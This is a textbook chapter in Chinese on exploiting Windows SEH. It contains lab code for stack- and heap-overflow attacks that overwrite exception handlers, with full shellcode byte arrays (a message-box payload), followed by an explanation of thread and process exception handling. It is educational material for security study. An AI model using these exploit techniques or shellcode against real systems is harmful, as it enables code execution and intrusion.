# 第5讲各类内存攻击技术

大道不过二三四，漏洞利用技术无外乎溢出、跳转、指令、指针……如果您已经明白“大道”，不妨一起来看看高手们是怎样为“大道”添加艺术气息的。本章将抛开调试和实验，集中介绍近年来一些新型的漏洞利用思路和攻击技巧。

## 狙击Windows异常处理机制

### S.E.H 概述

操作系统或程序在运行时，难免会遇到各种各样的错误，如除零、非法内存访问、文件打开错误、内存不足、磁盘读写错误、外设操作失败等。为了保证系统在遇到错误时不至于崩溃，仍能够健壮稳定地继续运行下去，Windows 会对运行在其中的程序提供一次补救的机会来处理
错误，这种机制就是异常处理机制。

S.E.H 即异常处理结构体（Structure Exception Handler）,它是 Windows 异常处理机制所采用的重要数据结构。每个 S.E.H 包含两个 DWORD 指针：S.E.H 链表指针和异常处理函数句柄，共 8 个字节，如下图所示。



作为对 S.E.H 的初步了解，我们现在只需要知道以下几个要点，S.E.H 链表如下图所示。



要点：
- SEH结构体存放在系统栈中。
- 当线程初始化时，会自动向栈中安装一个SEH，作为线程默认的异常处理机制。
- 如果程序源代码中使用了_try{}_except{}或者Assert宏等异常处理机制，编译器将最终通过向当前函数栈帧中安装一个SEH来实现异常处理。
- 栈中一般会同时存在多个SEH.
- 栈中的多个SEH通过链表指针在栈内由栈顶向栈底串成单向链表，位于链表最顶端的SEH通过TEB 0 字节偏移处的指针标识。
- 当异常发生时，操作系统会中断程序，并首先从TEB的0字节偏移处取出距离栈顶最近的SEH，使用异常处理函数句柄所指向的代码来处理异常。
- 当离“事故现场”最近的异常处理函数运行失败时，将顺着SEH链表依次尝试其它的异常处理函数。
- 如果程序安装的所有异常处理函数都不能处理，系统将采用默认的异常处理函数。通常这个函数会弹出一个错误对话框，然后强制关闭程序。

提示：为了让您迅速理解基于 S.E.H 的异常处理机制，这里的表述做了一定的简化，省略了很多细节。例如：
- 系统对异常处理函数的调用可能不止一次；
- 对于同一个函数内的多个__try 或嵌套的__try 需要进行 S.E.H 展开操作（unwind）；
- 执行异常处理函数前会进行若干判定操作；
- 线程异常处理、进程异常处理和操作系统异常处理之间的调用顺序和优先级关系等都未提及。
- 我们将会在本章的后续小节中对异常处理进行逐步深入的讨论。


从程序设计角度来讲，SEH就是在系统关闭程序前，给程序一个执行预先设定的回调函数的机会（callback）。大概明白了 S.E.H 的工作原理之后，聪明的读者朋友们可能已经发现了问题所在。

问题如下：
- SEH存放在栈内，故溢出缓冲区的数据可能淹没SEH。
- 精心构造的溢出数据可以把SEH中异常处理函数的入口地址改为 shellcode 的起始地址。
- 溢出后，错误的栈帧或堆块数据往往会触发异常。
- 当 windows 开始处理溢出后的异常时，会错误地把 shellcode 当作异常处理函数而执行。

这就是Windows 异常处理机制的基本思路。对异常处理机制的利用是 Windows 平台下漏洞利用的一大特色，方法也多种多样。利用异常处理机制往往也是一些高级漏洞利用技术的关键所在。

接下来我们将通过两个小实验来分别练习在栈溢出场景中和堆溢出场景中利用 S.E.H 的基本技术。

### 在栈溢出中利用 SEH

我们通过下面代码的调试来进一步体会栈溢出中利用S.E.H.的方法：

```c++
#include <windows.h>
#include <stdio.h>
char shellcode[] = "\x90\x90\x90\x90";
DWORD MyExceptionhandler(void)
{
	printf("got an exception, press Enter to kill process!\n");
	getchar();
	ExitProcess(1);
	return 0;
}
void test(char * input)
{
	char buf[200];
	int zero=0;
	__asm int 3 
	__asm int 3 //used to break process for debug
	__try
	{
		strcpy(buf,input); //overrun the stack
		zero=4/zero; //generate an exception
	}
	__except(MyExceptionhandler())
	{
	
	}
}
main()
{
	test(shellcode);
}

```

对代码解释如下：
- 函数test中存在典型的栈溢出漏洞。
- ```__try{}```会在test的函数栈栈帧中安装一个SEH结构
- ```__try{}```中的除零操作会产生一个异常。
- 当strcpy操作没有产生溢出时，除零操作的异常将最终被MyExceptionhandler函数处理。
- 当strcpy产出溢出时，并精确将栈帧中SEH异常处理句柄修改位shellcode的入口地址时，操作系统将会错误地使用shellcode去处理除零异常，也就是说，代码植入成功。
- 此外，异常处理机制与堆分配机制类似，会检测进程是否在调试状态。如果直接用调试器加载程序，异常处理会进入调试状态下的处理流程。所以我们使用int 3，然后attach的方法。

上述实验的关键在于确定栈帧中SEH回调句柄的偏移，然后布置缓冲区精确覆盖这个位置，将句柄修改为shellcode的起始地址。

实验环境如下：
- windows2000
- vc6
- 默认编译选项
- release版本

暂时将 shellcode 赋值为一段不至于产生溢出的 0x90，按照实验环境编译运行代码，程序会自动中断，并提示选择终止运行或者进行调试。如果 OllyDbg 是默认调试器，直接选择“调试”，OllyDbg 会自动 Attach 到进程上并停在断点_asm int 3 处。

如图 6.1.3 所示，在字符串复制操作完毕后，数组中的 0x90 能够帮我们在调试器中轻易地确定 shellcode 的起始位置 0x0012FE98。



单击 OllyDbg 菜单“View”中的“SEH chai n”，Ollydbg 会显示出目前栈中所有的 S.E.H 结构的位置和其注册的异常回调函数句柄，如图 6.1.4 所示。



OllyDbg 当前线程一共安装了 3 个 S.E.H，离栈顶最近的位于 0x0012FF68，如果在当前函数内发生异常，首先使用的将是这个 S.E.H。我们回到栈中看看这个 S.E.H 的状况，OllyDbg 已经自动为它加上了注释，如图 6.1.5 所示。

这个 S.E.H 就在离 EBP 与函数返回地址不远的地方，0x0012FF68 为指向下一个 S.E.H 的链表指针，0x0012FF6C 处的指针 0x00401214 则是我们需要修改的异常回调函数句柄。

剩下的工作就是组织缓冲区，把 0x0012FF6C 处的回调句柄修改成 shellcode 的起始地址0x0012FE98。
缓冲区起始地址 0x0012FE98 与异常句柄 0x0012FF6C 之间共有 212 个字节的间隙，也就是说，超出缓冲区 12 个字节后的部分将覆盖 S.E.H。

仍然使用弹出“failwest”消息框的 shellcode 进行测试，将不足 212 字节的部分用 0x90 字节补齐；213~216 字节使用 0x0012FE98 填充，用于更改异常回调函数的句柄；最后删去代码
中的中断指令_asm int 3。

```
char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x98\xFE\x12\x00"; 
```

这时操作系统将错误地使用 shellcode 去处理除零异常，从而使植入的代码获得执行。

以上是一个最简单的在栈溢出中利用 S.E.H 的例子，用于让您更加深刻地领会这种攻击手法。在真实的 Windows 平台漏洞利用场景中，修改 S.E.H 的栈溢出和修改返回地址的栈溢出几乎同样流行。在许多高难度的限制条件下，直接用溢出触发异常的方法往往能得到高质量的exploit。

### 在堆溢出中利用 S.E.H

堆中发生溢出后往往同时伴随着异常的产生，所以，S.E.H 也是堆溢出中 DWORD SHOOT 常常选用的目标。实验所用代码由 5.4 节中的代码修改得到。

下面的代码用于演示：
```c++

#include <stdio.h>
#include <windows.h>
char shellcode[]=
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
	"\x88\x06\x52\x00"//0x00520688 is the address of shellcode in first Heapblock
	"\x90\x90\x90\x90";//target of DWORD SHOOT
DWORD MyExceptionhandler(void)
{
	ExitProcess(1);
	return 0;
}
main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	__asm int 3 // uesd to break the process
	memcpy(h1,shellcode,0x200);// over flow here, noticed 0x200 means 512 !
	
	__try
	{
		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	}
	__except(MyExceptionhandler())
	{} 
	return 0;
} 
```

对实验思路和代码简要解释如下。
（1）溢出第一个堆块的数据将写入后面的空闲堆块，在第二次堆分配时发生 DWORD SHOOT。堆溢出和 DWORD SHOOT 的分析请参见 5.4 节中的介绍。
（2）将 S.E.H 的异常回调函数地址作为 DWORD SHOOT 的目标，将其替换为 shellcode 的入口地址，异常发生后，操作系统将错误地把 shellcode 当作异常处理函数而执行。

除了 DWORD SHOOT 的 Ta rget 不一样之外，缓冲区内其余的数据都和 5.4 节中所介绍的一样。首先，我们把最后 4 个字节的 target 设置为 0x90909090，这显然是一个无效的内存地址，因此会触发异常。我们所需要做的就是在程序运行时，找到 S.E.H 的位置，然后把 DWORD SHOOT 的 target 指向 S.E.H 的回调句柄。

首先应当确认 OllyDbg 能够捕捉所有的异常，方法是查看菜单“options”下的“debugging option”中“Exceptions”选项中没有忽略任何类型的异常。

然后按照实验要求将代码编译运行，程序会自动中断，使用 OllyDbg attach 到进程上，直接按 F9 键继续执行。DWORD SHOOT 发生后，程序产生异常。OllyDbg 捕捉到异常后会自动中断，如图 6.1.8
所示。



这时查看栈中的 S.E.H 情况：View→SEH chain，出现如下图 所示的界面。




发现离第一个 S.E.H 位于 0x0012FF2C 的地方，那么异常回调函数的句柄应该位于这个地址后 4 个字节的位置 0x0012FF30。现在，将 DWORD SHOOT 的目标地址由 0x90909090 改为 0x0012FF30，去掉程序中的中断指令，重新编译运行，结果如图 6.1.10 所示。

消息框成功的弹出，证明 shellcode 得到了执行。

更改后的代码如下：
```c++
#include <stdio.h>
#include <windows.h>
char shellcode[]=
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
	"\x88\x06\x42\x00"//0x00520688 is the address of shellcode in first Heapblock
	"\x30\xFF\x12\x00";//target of DWORD SHOOT
DWORD MyExceptionhandler(void)
{
	ExitProcess(1);
	return 0;
}
main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	//__asm int 3 // uesd to break the process
	memcpy(h1,shellcode,0x200);// over flow here, noticed 0x200 means 512 !
	
	__try
	{
		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	}
	__except(MyExceptionhandler())
	{} 
	return 0;
} 
```

### 深入挖掘windows异常处理

#### 不同级别的SEH

和堆分配机制一样，微软从未正式公开过 Windows 的异常处理机制。即便如此，在非官方的文献资料中仍能找到一些对其的描述，最著名的一篇技术文章可能应当是来自微软的工程师 Matt Pietrek 所发表的 A Crash Course on the Depths of Win32™ Structured Exception Handling。在这篇文章中，比较系统地描述了 Windows 中基于 S.E.H 的异常处理原理和大致流程，并用生动的例子讲解了操作系统是如何使用 S.E.H 实现__try{}、__except{}异常处理机制的。您可以在 http://bytepointer.com/resources/pietrek_crash_course_depths_of_win32_seh.htm 找到这篇文章。

从攻击者的角度讲，对异常处理的掌握只要知道改写 S.E.H 能够劫持进程、植入恶意代码可能就够了。但是，作为安全技术的研究人员，异常处理机制还是很有研究价值的，而且几乎所有大师级别的安全专家都对异常处理机制了如指掌。如果您掌握了异常处理的所有细节，那
么突发奇想地创造出一种新的漏洞利用方法也不是没有可能。

本节在总结前人研究的基础上，将对 Windows 异常处理做一个逐步深入的介绍，希望这些内容能够在您进行更深层次的调试和研究时，起到一定的指导作用。如果您只是关注漏洞利用技术本身，可以跳过这里继续后面的章节。

异常处理的最小作用域是线程，每个线程都拥有自己的 S.E.H. 链表。线程发生错误时，首先将使用自身的 S.E.H. 进行处理。

一个进程中可能同时存在很多个线程，每个线程都拥有自己的S.E.H.链表。线程发生错误时，首先将使用自身的S.E.H.进行处理。

一个进程中可能同时存在很多个线程。此外，进程中也有一个能够纵览全局的异常处理。当线程自身的S.E.H无法处理错误时，进程的S.E.H.将发挥作用。这种异常处理不仅仅能影响出错的线程，进程下属的所有线程可能都会受到影响。

除了线程异常处理和进程异常处理之外，操作系统还会为所有程序提供一个默认的异常处理。当所有的异常处理函数都无法处理错误时，这个默认的异常处理函数将被最终调用，其结果一般是显示一个错误对话框（我们经常见到的程序崩溃时的那种对话框）。

现在我们可以将前面所给出的最简单的异常处理流程补充如下：
- 首先执行线程中距离栈顶最近的SEH的异常函数处理函数；
- 若失败，则依次尝试执行 SEH 链表中后续的异常处理函数；
- 若 SEH 链中所有的异常处理函数都没能处理异常，则执行进程中的异常处理。
- 若仍然失败，系统默认的异常处理将被调用，程序崩溃时的对话框将被弹出。

本节我们会将这个处理过程继续细化，直到接近操作系统真实的做法。

#### 线程的异常处理

通过前面的实验，相信大家已经理解了线程中通过 TEB 引用 S.E.H 链表依次尝试处理异常的过程。这里，首先需要补充的是异常处理函数的参数和返回值。

线程中的用于处理异常的回调函数有 4 个参数。
- pExcept：指向一个非常重要的结构体 EXCEPTION_RECORD。这个结构体包含了与异常相关的信息，如异常的类型、异常发生的地址等。
- pFrame：指向栈帧中的 SEH 结构体。
- pContext：指向 Context 结构体。该结构体包含了所有寄存器的状态。
- pDispatch：未知

在回调函数执行前，操作系统会将上述异常发生时的断点信息压栈。根据这些对异常的描述，回调函数可以轻松处理异常。例如，遇到除零异常时，可以把相关寄存器的值修改为非0；内存访问错误时，可以重新把寄存器指回有效地址等。

这种回调函数返回后，操作系统会根据返回的结果决定下一步应该做什么。异常处理函数可能返回两种结果：
- 0 （ExceptionContinueExcetution）：代表异常被成功处理，将返回原程序发生异常的地方，继续执行后续指令。
- 1 （ExceptionContinueSearch）：代表异常处理失败，将顺着 S.E.H 链表搜索其他可用于异常处理的函数并尝试处理。

注意：操作系统是通过传递给回调函数的参数恢复断点信息的，这时的“断点”可能已经被异常处理函数修改过，例如，若干寄存器的值可能被更改以避免除 0 异常等。

线程的异常处理中还有一个比较神秘的操作叫做 unwind 操作，这个操作会对我们已经建立起来的异常处理流程的概念再做一点修改。

当异常发生时，系统会顺着SEH链表搜索能够处理异常的句柄；一旦找到了恰当的句柄，系统就将已经遍历过的SEH中的异常处理函数再调用一遍，这个过程就是所谓的 unwind 操作，这第二轮的调用就是 unwind 调用。

unwind 调用的主要目的是“通知”前边处理异常失败的 SEH，系统已经准备将它们“遗弃”了，请它们立刻清理现场，释放资源，之后这些SEH结构体将被从链表中拆除。

unwind 操作很好地保证了异常处理机制自身的完整性和正确性。下图描述的是一个由于没有使用 unwind 操作从而导致异常处理机制自身产生错误的例子。


unwind 操作就是为了避免在进行多次异常处理，甚至进行互相嵌套的异常处理时（执行异常处理函数中又产生异常），仍能使这套机制稳定、正确地执行而设计的。unwind 会在真正处理异常之前将之前的 S.E.H 结构体从链表中逐个拆除。当然，在拆除前会给异常处理函数最后一次释放资源、清理现场的机会，所以我们看到的就是线程的异常处理函数被调用了两次。

异常处理函数的第一轮调用用来尝试处理异常，而在第二轮的 unwind 调用时，往往执行的是释放资源等操作。那么，异常回调函数怎么知道自己是被第几次调用的呢？

unwind 调用是在回调参数中指明的。对照 MSDN，我们回顾一下回调函数的第一个参数 pExcept 所指向的 EXCEPTION_RECORD 结构体。

```
typedef struct _EXCEPTION_RECORD {
	DWORDExceptionCode;
	DWORDExceptionFlags; //异常标志位
	struct _EXCEPTION_RECORD *ExceptionRecord;
	PVOID ExceptionAddress;
	DWORD NumberParameters;
	DWORD ExceptionInformation [EXCEPTION_MAXIMUM_PARAMETERS];
 } EXCEPTION_RECORD; 
```

当这个结构体中的 ExceptionCode 被设置为 0xC0000027 （STATUS_UNWIND），并且ExceptionFlags 被设置为 2（EH_UNWINDING）时，对回调函数的调用就属于 unwind 调用。
unwind 操作通过 kernerl32 中的一个导出函数 RtlUnwind 实现，实际上 kernel32.dll 会转而再去调用 ntdll.dll 中的同名函数。MSDN 中有对这个函数的描述。

```
void RtlUnwind(
	PVOID TargetFrame,
	PVOID TargetIp,
	PEXCEPTION_RECORD ExceptionRecord,
	PVOID ReturnValue
); 
```

最后，还要对栈中的异常处理做最后一点补充：在使用回调函数之前，系统会判断当前是否处于调试状态，如果处于调试状态，将把异常交给调试器处理。

#### 进程的异常处理

所有线程中发生的异常如果没有被线程的异常处理函数或调试器处理掉，最终将交给进程中的异常处理函数处理。

进程的异常处理回调函数需要通过 API 函数 SetUnhandledExceptionFilter 来注册，其函数原型如下。

```
LPTOP_LEVEL_EXCEPTION_FILTER SetUnhandledExceptionFilter(
 LPTOP_LEVEL_EXCEPTION_FILTER lpTopLevelExceptionFilter
);
```

这个函数是 kernel32.dll 的导出函数，MSDN 中有对其的相关描述。

提示：您可以简单地把线程异常处理对应为代码中的__try{} __ except(){}或者 Assert 等语句，把进程的异常处理对应于函数 SetUnhandledExceptionFilter。

进程的异常处理函数的返回值有以下 3 种:
- 1 （EXCEPTION_EXECUTE_HANDLER）：表示错误得到正确的处理，程序将退出。
- 0 （EXCEPTION_CONTINUE_SEARCH）：无法处理错误，将错误转交给系统默认的异常处理。
